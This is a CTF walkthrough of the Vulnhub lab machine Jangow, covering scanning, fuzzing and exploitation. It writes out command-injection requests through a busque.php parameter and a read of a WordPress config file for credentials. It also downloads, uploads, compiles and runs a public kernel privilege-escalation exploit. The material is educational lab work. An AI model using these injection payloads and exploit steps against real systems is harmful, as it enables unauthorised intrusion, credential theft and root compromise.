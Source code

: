 ```yaml
---
title: CTF Walkthrough for Vulnhub Machine Jangow
category: [Walkthrough, CTF]
tags: [vulnhub, writeup, jangow, machines, pentest]   
image:
  path: /assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/box-jangow.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Jangow an easy machine among Vulnhub machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Jangow<br>
Goal: Get two flags<br>
Difficulty: Easy<br>
Operating System: Linux<br>
Download link: [Jangow](https://download.vulnhub.com/jangow/jangow-01-1.0.1.ova)<br>
### Tools used
1) Nmap<br>
2) ffuf<br>

## Reconnaissance
We can't attack what we don't know so we first need to identify our target on the network. I used Nmap to carry a host discovery scan to identify all the live hosts on the network.
```bash
nmap -sn 10.0.2.15/24
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/hosts-dis.png)

After identifying the target, we can proceed by performing a service scan on the target.
```bash
sudo nmap -sV -sC -n  10.0.2.8 -oN services-dis.nmap
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/services-dis.png)

From the result obtained, we can see the target runs an FTP and an Apache web server. Since anonymous login is not available on the FTP server let's visit the web application
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/first-browse.png)

We can see the directory **site** clicking on it gives us a fully interactive web application.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/second-browse.png)

The web application looks normal. When we navigate through the website using the navigation bar we see that the element named Buscar redirects us to a busque.php page which accepts an argument named buscar.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/buscar-navigation.png)

This is an uncommon word for me so I did a quick Google search and realised that buscar is a Portuguese word that can be translated as 'search for' in English. From the translation of the word buscar we can deduce that this php page has a search functionality. Let's fuzz for all search terms available on the page.
```bash
ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.8/site/busque.php?buscar=FUZZ -fs 1
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/value-fuzzing.png)

## Exploitation

We can notice that all these search terms are common command line commands. We can try the common command ```id``` and we can see that it is executed by the target.
```bash
curl http://<IP addr>/site/busque.php?buscar=id
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/testing-buscar.png)

Since this file executes commands on the target. Instead of directly attempting to obtain a reverse shell we should first of all understand how this file executes commands i.e. if any filter is put in place to filter commands. To do this let's try to read the content of this file.
```bash
curl http://<IP addr>/site/busque.php?buscar=cat%20busque.php
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/busque-analyses.png)

We can see from the content of this file that no filter has been put in place by the administrator of the web application. I tirelessly tried to obtain a reverse shell but it failed this may be due to the presence of egress filters *NB: Egress filtering is the practice of monitoring and potentially restricting the flow of information outbound from one network to another.* Since we can't obtain a reverse shell we can use this webshell to enumerate the system. We can start by listing the content of the current working directory. We can see that this directory contains and interesting directory named wordpress. When we list the content of the wordpress directory we see a configuration file that contains credentials for the user jangow01.
```bash
curl http://<IP addr>/site/busque.php?buscar=ls
curl http://<IP addr>/site/busque.php?buscar=ls+wordpress
curl http://<IP addr>/site/busque.php?buscar=cat+wordpress%2fconfig.php
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/file-enum-1.png)

We can use this credential to log in to the FTP server as shown below
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/ftp-connect.png)

Since we can't obtain a reverse shell let's access the machine and log in using the credentials we discovered above.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/user-auth-1.png){: .center}

This access gives us the ability to read the user flag on the system and continue our enumeration process.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/user-flag.png)

## Post Exploitation

I tried several manual enumeration techniques and at the end, I enumerated the kernel version to see if the was any public exploit available.<br>
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/kernel-version.png){: .center}

Looking online we can see that this specific kernel version appears to be vulnerable to CVE-2016-8655. Let's download the [POC](https://www.exploit-db.com/exploits/47170) of this exploit and upload it to our target.
```bash
wget https://www.exploit-db.com/download/47170
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/download-exploit.png)

We can now upload this POC to the target using the FTP service it runs. Upon testing the FTP service run by our target we can discover that path traversal is enabled, hence we can move to the **/tmp** directory and upload the exploit's POC.
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/exploit-upload.png)
*NB: In case path traversal was not enabled we could grant our self-writing privilege on a directory in the web root directory and upload the POC in that directory using FTP.*

Once we upload the POC to our target we can compile it using the inbuilt gcc on our target. The instructions on how to compile this POC are in the comments.
```bash
gcc 47170.c -o poc -lpthread
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/compile-exploit.png){: .center}

After compiling the POC we can run it and we shall obtain a shell a the root user. 
```bash
./poc
```
![](/assets/img/posts/walthrough/vulnhub/2024-09-10-jangow/root-shell.png){: .center}
Great, with this access, we owned the machine and we can read the root flag found in the root directory.

## Conclusion
Congratulations! In this walkthrough, you have used your enumeration skills to enumerate across the system to find credentials and then used these credentials to log in as a normal user. Finally, you successfully exploited a kernel vulnerability to obtain root access to the target system. This machine demonstrates how poor maintenance of updates can significantly impact an organisation's security posture. Thank you for following up on this walkthrough.









